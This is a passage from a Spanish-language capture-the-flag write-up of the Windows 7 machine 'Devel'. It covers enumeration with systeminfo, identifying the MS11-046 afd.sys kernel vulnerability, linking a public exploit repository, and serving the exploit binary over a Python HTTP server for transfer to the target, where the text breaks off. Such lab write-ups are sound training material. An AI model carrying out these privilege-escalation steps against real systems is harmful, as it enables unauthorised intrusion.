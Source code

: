 Si tratamos de acceder al directorio del usuario `babis`, notaremos que no tenemos los permisos necesarios. Por lo tanto, para acceder a las flags de la máquina, debemos elevarnos a usuario `nt authority\system`.

```bash
c:\Users>cd babis
cd babis
Access is denied.
```

## Escalación de privilegios

---

Al ejecutar el comando `systeminfo` para obtener información de la máquina, obtendremos los siguientes detalles del sistema:

```bash
c:\Users>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 
System Boot Time:          23/7/2023, 7:31:18 
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.

[...]
```

### Microsoft Windows (x86) – ‘afd.sys’ (MS11-046)

Tras observar que la versión del sistema operativo es antigua, buscamos posibles exploits conocidos en Google y encontramos la vulnerabilidad **MS11-046**.

En este caso, utilizamos el exploit alojado en el repositorio de GitHub: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS11-046

Según el repositorio, el modo de uso es sencillo: solo debemos ejecutar el archivo `MS11-046.exe` para obtener una shell como `nt authority\system`.

Así que comenzamos alojando el archivo `MS11-046.exe` en un servidor simple usando Python.

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
